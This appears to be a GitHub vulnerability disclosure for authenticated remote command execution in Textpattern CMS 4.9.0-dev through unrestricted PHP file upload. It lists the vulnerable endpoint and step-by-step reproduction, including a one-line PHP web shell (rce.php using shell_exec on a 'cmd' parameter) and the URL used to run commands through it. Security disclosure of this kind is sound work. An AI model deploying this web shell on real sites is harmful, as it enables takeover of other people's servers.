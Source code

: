 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0 is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
1. Log in as the root user in Textpattern.<br> 
2. Create a PHP web shell by making a file named rce.php with the content <?php echo shell_exec($_GET['cmd']); ?>.<br> 
3. Navigate to 'Content > Files' and upload the rce.php web shell.<br>
    ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPatter-1.png?raw=True)
5. Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
6. You can now interact with the web shell and execute commands using this 'cmd=COMMAND'.<br>
   ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPattern-2.png?raw=True)

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

